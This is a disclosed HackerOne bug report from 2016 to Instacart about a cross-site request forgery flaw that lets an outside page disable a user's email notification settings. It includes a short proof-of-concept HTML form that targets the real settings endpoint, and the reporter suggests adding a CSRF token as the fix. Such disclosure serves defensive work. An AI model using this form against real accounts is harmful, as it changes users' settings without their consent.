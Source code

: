 # CSRF To change Email Notification Settings 

## Report Details
- **Report ID**: 157956
- **URL**: https://hackerone.com/reports/157956
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-09T20:11:34.963Z
- **Disclosed**: 2016-09-15T18:44:14.096Z

## Reporter
- **Username**: trad_zero_h
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: instacart

## Vulnerability Information
Hi i found CSRF To change Email Notification Settings 

The Code Of the HTML Page ::
<html>
  <body>
    <form action="https://www.instacart.com/api/v2/email_settings/76/disable?resource_token=">
      <input type="submit" value="Submit form" />
    </form>
  </body>
</html>

For Fixing you Must add CSEF Token to the Request 

i attached Video Showing the Bug 

Thanks  


## Attachments
- POC.mp4
